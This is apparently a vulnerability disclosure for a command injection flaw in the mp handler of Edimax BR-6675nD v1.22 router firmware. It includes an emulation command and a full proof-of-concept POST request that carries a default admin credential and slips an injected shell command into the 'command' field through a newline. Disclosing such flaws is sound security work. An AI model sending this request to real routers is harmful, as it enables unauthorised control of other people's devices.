





# EDIMAX RCE
**discription**: a remote-command-execution vulnerability was found on EDIMAX br-6675nd_v1.22  via the mp function in /bin/webs
## Firmware
Firmware Version:BR-6675nD_v1.22

Using FirmAE to simulate the router environment,the command is 
```
./run.sh -r edimax ../Desktop/FIRWARE/BR-6675ND_v1.22.zip
```

## Description
the vulnerability was in /bin/webs  
addr:0046dfc0  
function:mp


The post parameter command will be sprintf as the second input parameter which will be executed


# poc
burp suite change the packet as follow
```
POST /goform/mp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/goform/mp
Upgrade-Insecure-Requests: 1

command=12\necho 123 > /tmp/poc.txt 
```
the result of poc as follow,you can find the /tmp/poc.txt was create after poc


